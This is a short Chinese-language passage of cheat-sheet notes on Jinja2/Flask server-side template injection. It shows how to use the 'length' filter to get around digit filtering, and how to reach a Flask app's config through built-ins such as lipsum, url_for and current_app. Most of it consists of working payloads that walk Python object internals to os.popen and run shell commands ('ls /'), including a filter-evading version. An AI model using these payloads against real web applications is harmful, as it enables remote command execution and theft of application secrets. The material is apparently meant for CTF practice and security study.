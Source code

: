 ## Length过滤器绕过数字过滤

```py
{% set a='aaaaaaaaaa'|length %}{{a}}--->10
{% set a='aaaaaaaaaa'|length * 'aaa'|length %}{{a}}--->30
```

```py
构造payload:
{{''.__class__.__base__.__subclasses__()[199].__init__.__globals__['os'].popen('ls /').read()}}
替换为
{% set a='aaaaaaaaaa'|length*'aaaaaaaaaa'|length*'aa'|length-'a'|length %}
{{{{''.__class__.__base__.__subclasses__()[a].__init__.__globals__['os'].popen('ls /').read()}}}}
```

## 获取config文件

在无过滤情况下可以直接使用{{config}}直接查看

> * flask内置函数
>
> lipsum可加载第三方库
>
> url_for可返回url路径
>
> get_flashed_message可获取信息

> * flask内置对象
>
> cycler
>
> joiner
>
> namespace
>
> config
>
> request
>
> session

可利用已加载内置函数或对象寻找被过滤字符串

可利用内置函数调用current_app模块进而查看配置文件
